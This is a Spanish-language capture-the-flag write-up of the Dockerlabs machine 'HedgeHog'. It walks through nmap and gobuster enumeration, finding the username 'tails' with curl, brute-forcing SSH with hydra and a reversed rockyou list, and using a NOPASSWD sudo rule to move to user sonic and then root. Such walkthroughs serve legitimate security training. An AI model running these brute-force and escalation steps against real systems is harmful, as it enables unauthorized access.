





# Writeup: HedgeHog &mdash; Dockerlabs
- **Dificultad:** Muy Fácil
- **Plataforma:** Dockerlabs
- **IP Objetivo:** 172.17.0.2
- **Técnicas Clave:** Enumeración de Puertos (Nmap), Reconocimiento Web (Curl), Fuerza Bruta SSH (Hydra), Movimiento Lateral, Escalada de Privilegios

---
### Reconocimiento y Escaneo de Puertos
Se realizó un escaneo completo de puertos TCP sobre la máquina objetivo:
    
    $ nmap -p- --open -sS -sC -sV 172.17.0.2 -n -Pn


#### Puertos Descubiertos
- **22/tcp**
- **80/tcp**

---
### Enumeración Web y Detección de Usuario
Se realizó fuzzing sobre el servidor web mediante *Gobuster:*

    $ gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/directory-lists-2.3-small.txt -x php,html,txt,sh,py,bak,zip --exclude-length 10701



#### Resultados
- ```/server-status```(status: / size: )
- ```/index.html``` (status:200 / size: 6)
Al inspeccionar el contenido exacto de ```index.html``` con ```curl```:

      $ curl -s http://172.17.0.2/index.html



El servicio decolvió únicamente la cadena ```tails```, revelando un posible nombre de usuario válido para el sistema.

---
### Acceso Inicial mediante Fuerza Bruta SSH
Dado que las contraseñas comunes en ciertos entornos se encuentran al final del diccionario, se utilizó la herramienta ```tac``` para invertir el orden de ```rockyou.txt``` y se ejecutó la entrada de fuerza bruta por SSH contra el usuario ```tails```:

    $ tac /usr/share/wordlists/rockyou.txt > rockyouReverse.txt
    $ hydra -l tails -P rockyouReverse.txt ssh://172.17.0.2 -t 4 -f -V -I



---
### Movmiento Lateral (```tails > sonic```), y Conexión SSH

Tras obtener las credenciales válidas, se inició una conexión remota mediante SSH
Una vez dentro del sistema, se listaron los privilegios ```sudo``` asignados al usuario:

    $ sudo -l

Obteniendo como salida:

    User tails may run the following commands on 89fdcbfa673c:
      (sonic) NOPASSWD: ALL



#### Resultados
Se aprovechó este permiso para iniciar una shell interactiva bajo el contexto del usuario ```sonic```y desde dicha sesión se auditaron los permisos. Como resultado final se comprueba el acceso como ```root```.
